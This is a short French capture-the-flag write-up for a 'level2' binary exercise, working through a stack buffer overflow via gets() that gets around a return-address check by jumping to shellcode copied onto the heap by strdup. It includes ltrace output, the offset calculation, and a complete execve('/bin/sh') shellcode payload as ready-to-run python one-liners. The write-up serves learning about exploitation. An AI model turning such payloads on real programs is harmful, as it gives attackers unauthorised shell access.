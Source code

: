 # level2

On disas et on voit qu'on a un main qui ne fait pas grand chose et qui call la fonction `p()`

La fonction `p()` verifie si l'adresse de retour contient 0xb

adresse system : `0xb7e6b060`

Pas bon du tout

strdup : heap retourne une adresse differente de 0xb
adresse return strdup : `0x804a008`

Peut-etre quelque chose a faire avec le retour de strdup ?

```
$> ltrace ./level2

__libc_start_main(0x804853f, 1, 0xbffff7f4, 0x8048550,0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)         = 0
gets(0xbffff6fc, 0, 0, 0xb7e5ec73, 0x80482b5
) = 0xbffff6fc
puts("")                   = 1
strdup("")                 = 0x0804a008
```


shell code /bin/sh
`http://shell-storm.org/shellcode/files/shellcode-575.html`

Ok donc maintenant qu'on a ce shell code qui fait un appel system de `execve("/bin/sh")`

Il va falloir savoir quoi en faire et comment l'exploiter

On sait qu'on peut faire un BoF avec gets et on sait qu'on doit utiliser le retour de strdup sinon le programme rentre dans la comparaison avec 0xb et exit

L'utilisation du heap via strdup() permet de contourner la protection de la stack

On modifie `ebp+4` avec l'adresse de retour de strdup pour que le flux d'execution du retour de la fonction main pointe vers notre shell code
L'execution de code en memoire etant active nous pouvons donc executer le shell code

`ebp+4` etant toujours l'adresse de retour de la frame actuelle

Il nous faut notre offset pour modifier `ebp+4`

`https://wiremask.eu/tools/buffer-overflow-pattern-generator/`

Offset 80

Niquel, maintenant on sait que notre shell code fait 21
On soustrait 21 a 80 = 59

On aura un padding de 59 bytes apres notre shell code avant d'ecrire l'adresse de retour de strdup

On va mettre notre shell code au debut du payload etant donne que l'adresse de retour est un pointeur sur notre commande

Donc pour resume 

`payload = shellcode + padding 59 + addr retour strdup`

Testons tout ca :

Avec gdb
```
r < <(python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 59 + "\x08\xa0\x04\x08"')
```

en ligne de commande
```
(python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 59 + "\x08\xa0\x04\x08"'; cat) | ./level2 
```